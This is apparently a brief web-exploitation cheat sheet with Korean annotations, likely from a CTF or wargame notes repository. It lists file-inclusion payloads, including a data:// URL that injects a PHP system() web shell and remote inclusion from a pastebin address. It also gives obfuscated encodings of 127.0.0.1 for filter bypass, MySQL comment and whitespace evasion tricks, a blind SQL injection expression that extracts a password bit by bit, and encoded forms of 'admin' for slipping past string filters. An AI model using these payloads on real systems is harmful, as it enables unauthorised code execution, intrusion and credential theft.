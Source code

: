 <br />

> LFI & RFI

```
http://URL/?page=php://filter/convert.base64-encode/resource=index.php

http://URL/?page=php://filter/convert.base64-decode/resource=./upload/abcde

http://URL/?page=data://text/plain,%3Cxmp%3E%3C?php%20system($_GET[%27x%27]);&x=ls%20-al

http://URL/?page=http://pastebin.com/raw/abcd/?&x=ls%20-al
```

<br />

> 127.0.0.1

```
http://2130706433

http://0x7f000001

http://0x7f.0x00.0x00.0x01

http://017700000001

http://0177.000.000.01
```

<br />

> MySQL

```
다음 라인 : %0a //주석처리를 하더라도 다음 줄로 넘겨버리면 무시된다.
주석 처리 : -- # ;%00 /**/
파라미터가 두개 있을경우 \를 입력해 뒤의 '를 무력화 후 쿼리문을 스트링화 시키고 뒤에 파라미터에 exploit을 수행할 수 있다.
%0a 말고도 %0b 등 대신 쓰일 수 있는 여러문자들이 있다.
비교 문자 : = like in strcmp()
문자 자르기 : strcmp left right mid Function
and == &&, or ==||
if ord Function Filtering : conv(hex(substr(pw,1,1)),16,10)
공백 대신 : /**/ %09 %0a ()
IF(substr(lpad(bin(ord(substr(password,1,1))),8,0),1,1)
```

<br />

> SQLI

String Filtering [ preg_match - ex) admin]

```php
admin : 0x61646d696e 0b0110000101100100011011010110100101101110 char(0x61, 0x64, 0x6d, 0x69, 0x6e)
```

<br />
